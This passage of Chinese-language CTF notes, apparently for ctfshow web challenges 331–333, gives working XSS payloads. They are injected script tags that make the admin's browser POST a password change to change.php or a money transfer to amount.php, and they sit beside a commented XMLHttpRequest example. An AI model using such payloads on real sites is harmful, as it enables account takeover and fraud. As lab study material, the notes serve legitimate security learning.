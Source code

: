 抓包可知

### web331

上题的非预期当然可以用

修改密码的方式有**GET**改为了**POST**

```js
<script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{p:'123'}});</script>

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=123');</script>
```

示例

```js
var httpRequest = new XMLHttpRequest();//第一步：创建需要的对象
httpRequest.open('POST', 'url', true); //第二步：打开连接
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");//设置请求头 注：post方式必须设置请求头（在建立连接后设置请求头）
httpRequest.send('name=teswe&ee=ef');//发送请求 将情头体写在send中
/**
 * 获取数据后的处理程序
 */
httpRequest.onreadystatechange = function () {//请求后的回调接口，可将请求成功后要执行的程序写在其中
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {//验证请求是否发送成功
        var json = httpRequest.responseText;//获取到服务端返回的数据
        console.log(json);
    }
};
```

### web 332-333

通过转负钱或者xss让admin给自己转钱

```js
<script>$.ajax({url:'http://127.0.0.1/api/amount.php',type:'post',data:{u:'xxx',a:'10000'}});</script>
```

## 题

有两个蛮有意思的xss题都没环境复现了，MRCTF2022 和 qwb2022的，有机会复现下

### [CISCN2019 华东北赛区]Web2

详见**ciscn**笔记
